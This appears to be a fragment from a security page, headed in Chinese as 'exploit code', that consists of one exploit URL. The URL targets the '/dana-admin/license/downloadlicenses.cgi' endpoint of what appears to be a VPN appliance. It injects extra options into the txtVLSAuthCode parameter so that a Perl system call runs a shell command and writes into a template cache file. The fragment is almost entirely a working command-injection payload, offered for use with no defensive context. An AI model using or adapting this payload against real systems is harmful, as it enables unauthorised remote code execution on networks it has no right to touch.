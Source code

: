 利用代碼：
----------

`https://x.x.x.x/dana-admin/license/downloadlicenses.cgi?cmd=download&txtVLSAuthCode=whatever -n '($x="ls /",system$x); #' -e /data/runtime/tmp/tt/setcookie.thtml.ttc`